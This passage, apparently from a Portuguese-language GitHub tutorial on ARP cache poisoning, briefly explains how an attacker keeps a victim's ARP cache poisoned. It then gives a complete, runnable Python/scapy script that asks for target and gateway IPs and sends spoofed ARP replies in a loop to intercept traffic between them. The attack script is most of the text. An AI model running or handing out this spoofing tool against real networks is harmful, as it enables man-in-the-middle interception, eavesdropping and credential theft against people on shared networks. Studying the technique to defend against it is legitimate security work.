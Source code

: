 ou

Utilizando o iptables

```bash
sudo apt install iptables
```

1. Para burlar o refresh da arp cache, o atacante pode enviar continuamente fake replys para sempre que um request for feito, já haja um fakereply pronto para responder. E isso pode ser feito com um [script](https://github.com/guilhermehiromoto/arp-cache-poisoning/blob/master/arp.py) em python.

```python
from scapy.all import *
import time

def getmac(targetip):
    arppacket = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=targetip)
    targetmac = srp(arppacket)[0][0][1].hwsrc
    return targetmac

def poisonarpcache(targetip, targetmac, sourceip):
    spoofed = ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
    send(spoofed)

def restorearp(targetip, targetmac, sourceip, sourcemac):
    packet = ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
    send(packet)
    print ("ARP Table restored to normal for", targetip)

def main():
    targetip = input("Enter Target IP:")
    gatewayip = input("Enter Gateway IP:")

    try:
        targetmac = getmac(targetip)
    except:
         print("Target machine did not respond to ARP broadcast")
         quit()

    try:
        gatewaymac= getmac(gatewayip)
    except:
         print("Gateway is unreachable")
         quit()

    try:
        print ("Sending spoofed ARP replies")
        while True:
            time.sleep(5) 
            poisonarpcache(targetip, targetmac, gatewayip)
            poisonarpcache(gatewayip, gatewaymac, targetip)

    except KeyboardInterrupt:
        print ("ARP spoofing stopped")
        restorearp(gatewayip, gatewaymac, targetip, targetmac)
        restorearp(targetip, targetmac, gatewayip, gatewaymac)
        quit()

if __name__=="__main__":
    main()
```
